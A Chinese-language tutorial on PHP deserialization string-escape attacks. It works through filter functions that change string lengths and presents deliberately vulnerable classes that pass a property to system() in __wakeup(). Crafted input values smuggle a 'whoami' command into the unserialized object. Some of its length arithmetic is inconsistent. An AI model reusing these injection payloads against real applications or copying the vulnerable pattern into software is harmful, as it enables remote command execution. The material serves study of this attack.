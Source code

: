 # php反序列化字符串逃逸

## 标准的反序列化

php反序列化是什么就不过多介绍了，这里就简单展示一下：

```php
<?php

class Example{
    public $var1="Unseralize success";
    public function __wakeup(){
        echo $this->var1;
    }
}

$A=new Example();

$str = serialize($A);

print_r($str);
echo "\n";
unserialize($str);
```

上面代码的输出是：

```bash
O:7:"Example":1:{s:4:"var1";s:18:"Unseralize success";}
Unseralize success```
```

### 序列化字符串的特点

一个序列化字符串必然是以```";}```结束，也就是说，如果我们能够控制序列化后的字符串中出现```";}```，就能提前结束序列化。

既然这样那我们是不是可以通过改变类中的变量的方式来控制序列化字符串呢，答案是不可以，比如下面的代码：

```php
<?php

class Example{
    public $var1='";}';
    public function __wakeup(){
        echo $this->var1;
    }
}

$A=new Example();

$str = serialize($A);

print_r($str);
echo "\n";
unserialize($str);
```

这是输出：

```
O:7:"Example":1:{s:4:"var1";s:3:"";}";}
";}
```

可见并没有出错，因为在于```s:3:"";}"```，将```var1```的变量长度控制死了在3位，所以并不能完成逃逸。

### 逃逸缺陷

从前面的演示可以看出反序列化逃逸的原因主要在于序列字符串的长度上面，换句话说，如果序列字符串的长度可控，我们就可以通过这一点来利用达到逃逸。

假设存在这样的waf函数用于过滤可能出现的危险字符：

```php
function waf($strings){
    return preg_replace('/php|flag|system|other_dangerous_functions/i', '', $strings);
}

$strings_to_be_unseralized = 'O:7:"Example":1:{s:4:"var1";s:3:"";}";}";}';
$strings_to_be_unseralized = waf($strings_to_be_unseralized);
```

开发可能以为过滤了就安全了，但实际上恰恰相反，下面就讲讲为什么在序列化后修改序列化字符串会造成危险。

## 序列化字符变多

假设存在如下代码，waf函数将一个b替换为两个b：

```php
<?php

function waf($strings){
    return str_replace('b', 'bb', $strings);
}

class Example{
    public $username='';
    public $cmd = 'date';
    public function __wakeup(){
        system($this->cmd);
    }
}



$A=new Example();
$A->username='blue';

$str = serialize($A);
print_r($str);
echo "\n";
print_r(waf($str));
echo "\n";
unserialize(waf($str));
```

在我们只能控制$username变量的情况下，我们如何利用waf函数的特性来控制$cmd变量为我们想要的任意值呢？

假如我们使$username的值为```blue```，那么实际经过waf过滤后的序列化字符串应该就是```O:7:"Example":2:{s:8:"username";s:4:"bblue";s:3:"cmd";s:4:"date";}```
，不难看出$username的值为```bblue```，但是前面的长度却是4，如果直接参与反序列化操作肯定是报错的，现在我们尝试来利用这一特性改变$cmd变量的值。

传入$username的值为```";s:3:"cmd";s:6:"whoami";}```，那么waf过滤后的序列化字符串应该就是

```
O:7:"Example":2:{s:8:"username";s:30:"bblue";s:3:"cmd";s:6:"whoami";}";s:3:"cmd";s:4:"date";}
```

不难发现，如果想要控制$cmd的值为whoami，我们就需要使$username的长度等于前面s的值，现在$username的长度为5，很明显不等于28，但是前面的特性会将一个b变为两个b，反过来也就是说，$username变量长度每+2，s的值+1。

所以$username变量长度的增长速度快于s的增长速度，这样的话，我们只需要求出还需要多少个b才能使其相等即可。

另2X为还需要的b的值：

$$
30+X=5+2X
\\
X=25
$$

不难解得X为25。

这样我们理想的序列化字符串应该就是
```
O:7:"Example":2:{s:8:"username";s:55:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbblue";s:3:"cmd";s:6:"whoami";}";s:3:"cmd";s:4:"date";}
```

反推出传入的$username的值为：```bbbbbbbbbbbbbbbbbbbbbbbbbblue";s:3:"cmd";s:6:"whoami";}```

如此便能达到逃逸的效果：

![iShot2022-04-03_23.54.37](./attachment/iShot2022-04-03_23.54.37.jpg)

## 序列化字符变少

假设存在如下代码，waf函数将所有危险的函数替换为空：

```
<?php

function waf($strings){
    return preg_replace('/php|flag|system|other_dangerous_functions/i', '', $strings);
}

class Example{
    public $username='';
    public $cmd = 'date';
    public function __wakeup(){
        system($this->cmd);
    }
}

$A=new Example();

$str = serialize($A);
print_r($str);
echo "\n";
print_r(waf($str));
echo "\n";
unserialize(waf($str));
```

现在我们尝试利用字符串减少的特性来控制变量$cmd。需要注意的是，在这种情况下，$cmd变量需要可控（听上去有点多此一举，既然$cmd可控为什么我们不直接去修改他的值呢......）

传入$username='php'，$cmd='";s:0:"";s:3:"cmd";s:6:"whoami";}'，时，修改后的序列化字符串为：

```
O:7:"Example":2:{s:8:"username";s:3:"";s:3:"cmd";s:33:"";s:0:"";s:3:"cmd";s:6:"whoami";}";}
```
我们需要让s吞噬整个```";s:3:"cmd";s:33:"```，所以可以列一个方程式来解决：

另X为php字符的个数，Y为flag字符的个数：

$$
25-3=3X+4Y
\\
\left\{
\begin{aligned}
x & = 2 \\
y & = 4 \\
\end{aligned}
\right.
$$

也就是说还需要2个php，4个flag：

```php
<?php

function waf($strings){
    return preg_replace('/php|flag|system|other_dangerous_functions/i', '', $strings);
}

class Example{
    public $username='';
    public $cmd = 'date';
    public function __wakeup(){
        system($this->cmd);
    }
}

$A=new Example();
$A->username='flagflagflagflagphpphpphp';
$A->cmd='";s:0:"";s:3:"cmd";s:6:"whoami";}';
$str = serialize($A);
print_r($str);
echo "\n";
print_r(waf($str));
echo "\n";
unserialize(waf($str));
```

输出结果如下，成功逃逸：

![iShot2022-04-04_10.34.04](./attachment/iShot2022-04-04_10.34.04.jpg)
